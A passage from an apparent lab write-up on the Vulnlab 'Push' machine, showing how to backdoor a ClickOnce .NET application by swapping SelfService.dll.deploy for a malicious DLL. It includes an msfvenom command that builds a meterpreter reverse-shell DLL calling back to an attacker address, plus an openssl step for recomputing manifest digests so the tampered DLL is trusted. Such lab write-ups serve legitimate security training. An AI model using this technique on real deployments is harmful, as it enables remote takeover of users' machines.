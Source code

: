 If I now visit ms01.push.vl which basically runs on my localhost I am greeting with the following page:

![_install](/assets/img/VL-Push/9.png)

Looking at this I noticed the text "ClickOnce Resources". When searching for ClickOnce I stumbled on a [blog](https://posts.specterops.io/less-smartscreen-more-caffeine-ab-using-clickonce-for-trusted-code-execution-1446ea8051c5) from Istan Toth which uses ClickOnce .NET Apps for Initial Access.

# Backdooring ClickOnce for Initial Access on MS01
After reading up on the topic there are two ways we can do this. One is by finding a suitable location to backdoor te assembly, or just replacing a DLL. If we replace a DLL with a malcious one we need to make it meet the following prerequisites:
1. Replace the digest hashes in the manifest file so the DLL is trusted
2. Remove invalid signatures from the modified manifest files.

The DLL that we will hijack is the "SelfService.dll.deploy" DLL. Using msfvenom I generated a malicous DLL which we'll replace in the application:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=10.8.0.49 LPORT=8080 > SelfService.dll.deploy
```
![_install](/assets/img/VL-Push/10.png)

Now that we have our malicous DLL lets calculate the digest hash so we can replace it in the SelfService.Application
```
openssl dgst -binary -sha256 SelfService.dll.deploy | openssl enc -base64
```
![_install](/assets/img/VL-Push/11.png)
